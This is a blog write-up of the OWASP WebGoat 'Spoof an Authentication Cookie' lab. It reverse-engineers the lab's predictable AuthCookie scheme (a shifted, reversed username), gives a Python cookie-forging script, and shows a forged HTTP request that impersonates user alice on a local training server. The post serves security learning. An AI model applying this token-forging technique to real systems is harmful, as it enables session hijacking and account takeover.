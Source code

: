 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Session Management Flaws"
subtitle: "Spoof an Authentication Cookie"
date:   2017-02-01 10:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Spoof an Authentication Cookie
Instructions:

- The user should be able to bypass the authentication check. Login using the webgoat/webgoat account to see what happens. You may also try aspect/aspect. When you understand the authentication cookie, try changing your identity to alice. 

Alright, lets log in as webgoat/webgoat and grab the request and response:

```
Username=webgoat&Password=webgoat&SUBMIT=Login
```

```
Set-Cookie: AuthCookie=65432ubphcfx
```

Alright, let's check out aspect/aspect:

```
Set-Cookie: AuthCookie=65432udfqtb
```

Hmm..so the first 5 characters, the integers, seem constant across these logins. The letters that follow seem to have the same number of characters as the username for the login. Let's take a look at the letters a few different ways:

```
webgoat
ubphcfx

aspect
udfqtb

webgoat
xfchpbu

aspect
btqfdu
```

Alright, looks like we might have a character shift by one (+1) and a reversal. Let's write a reverse engineered cookie generator:

{% highlight python %}
import sys

def login_cookie(username):
	chars = "abcdefghijklmnopqrstuvwxyz"
	cookie = ""
	for c in username.lower():
		index = chars.index(c)
		cookie += chars[(index+1) % len(chars)]

	print "65432"+cookie[::-1]

def main():
	login_cookie(sys.argv[1])

main()
{% endhighlight %}

Okay, let's give it a shot with webgoat:

```
>python 19_cookie_reveng.py webgoat
65432ubphcfx
```

Cool cool. Let's get alice's code:

```
>python 19_cookie_reveng.py alice
65432fdjmb
```

Okay, now let's login to webgoat's account and hit the ```Refresh``` button and capture that request. Now let's forge it with alice's ```AuthCookie```:

```
GET /WebGoat/attack? HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=301&menu=1800
Cookie: AuthCookie=65432fdjmb; JSESSIONID=D49B1C7B6EE2243929D320213C6A9C1B; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
```

<img src="{{ site.baseurl }}/images/webgoat/2017-02-01-webgoat_part_19/completed.jpg">

Forgery complete!